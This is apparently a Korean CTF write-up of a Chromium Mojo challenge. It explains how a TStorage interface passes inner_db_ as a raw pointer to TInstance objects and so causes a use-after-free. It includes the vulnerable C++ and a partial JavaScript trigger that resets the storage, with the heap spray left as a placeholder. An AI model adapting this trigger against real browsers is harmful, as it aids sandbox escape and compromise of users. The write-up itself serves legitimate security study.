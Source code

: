 ```diff
+    GetLibcAddress() => (uint64 addr);
+    GetTextAddress() => (uint64 addr);
+};
+
+interface TInstance {
+    Push(uint64 value) => ();
+    Pop() => (uint64 value);
+    Set(uint64 index, uint64 value) => ();
+    Get(uint64 index) => (uint64 value);
+    SetInt(int64 value) => ();
+    GetInt() => (int64 value);
+    SetDouble(double value) => ();
+    GetDouble() => (double value);
+    GetTotalSize() => (int64 size);
+};
```

취약점은 새롭게 추가된 mojo 기능에서 발생합니다. 추가된 기능은 TStorage로, Instance를 생성하여 원하는 값을 넣거나 가져올 수 있습니다. 또한 `GetLibcAddress()` 함수와 `GetTextAddress()` 함수를 통해 libc 주소와 text base 주소를 가져올 수 있었습니다.

```cpp
void TStorageImpl::CreateInstance(CreateInstanceCallback callback) {
    mojo::PendingRemote<blink::mojom::TInstance> instance;
    mojo::MakeSelfOwnedReceiver(std::make_unique<content::TInstanceImpl>(inner_db_.get()),
                                instance.InitWithNewPipeAndPassReceiver());

    std::move(callback).Run(std::move(instance));
}
```

취약점은 CreateInstance 함수에서 발생합니다. TInstance를 생성할 때 인자로 inner_db_를 raw pointer로 전달합니다.

```cpp
#include "content/browser/tstorage/inner_db_impl.h"

namespace content {

InnerDbImpl::InnerDbImpl() {}

InnerDbImpl::~InnerDbImpl() {}

void InnerDbImpl::Push(uint64_t value) {
    queue_.push(value);
}

```

하지만 inner_db_가 free될 때 따로 TInstance에 대한 처리가 없기 때문에 TInstance는 그대로 raw pointer를 가지고 있게 됩니다. 따라서 UAF 취약점이 발생합니다.

```html
<html>
<script src="../mojo_bindings.js"> </script>
<script src="../third_party/blink/public/mojom/tstorage/tstorage.mojom.js"> </script>
<script>
let sptr = new blink.mojom.TStoragePtr();
Mojo.bindInterface(blink.mojom.TStorage.name, mojo.makeRequest(sptr).handle, "context", true);

async functioin main() {
	await sptr.init();
	let ins1 = (await sptr.createInstance()).instance;
	await sptr.ptr.reset();
  // heap spray
	ins1.getTotalSize();
}

main();
```